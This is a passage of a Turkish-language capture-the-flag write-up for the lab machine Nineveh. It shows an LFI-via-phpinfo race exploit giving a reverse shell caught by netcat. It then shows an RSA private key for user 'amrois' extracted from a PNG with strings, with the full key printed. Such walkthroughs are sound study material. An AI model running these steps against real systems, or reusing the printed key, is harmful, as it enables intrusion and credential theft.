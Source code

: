 ```
root@kali# python phpinfolfi.py 10.10.10.43 80 100
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 125163
Spawning worker pool (100)...
 101 /  1000
```

O noktada, nc'de bir shell geldi:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:43916.
bash: cannot set terminal process group (1387): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Priv: www-data –> amrois

### Enumeration

Bu kutuda fazla bir şey bulamayınca, zaten sahip olduğum ipuçlarına geri döndüm, özellikle yalnızca bir resim çıktısı veren /secure_notes dizini ve giriş yapmak için gizli klasöre bakmam gerektiğini belirten giriş sayfasındaki not, bu da bir zorluk yaratıyordu.

/secure_notes dizininde sadece .png dosyası ve index.html bulunuyor:

```
www-data@nineveh:/var/www/ssl/secure_notes$ ls
index.html  nineveh.png
```

Bir CTF sizi bir yere yönlendirdiğinde ve orada sadece bir resim bulduğunuzda, resmi biraz daha detaylı incelemek faydalı olabilir. Strings komutunu çalıştırmak bu düşünceyi doğruluyor:

```
www-data@nineveh:/var/www/ssl/secure_notes$ strings -n 20 nineveh.png -----BEGIN RSA PRIVATE KEY----- MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5 FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI 3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo 9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl 1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89 P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1 MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7 fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG -----END RSA PRIVATE KEY----- ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```
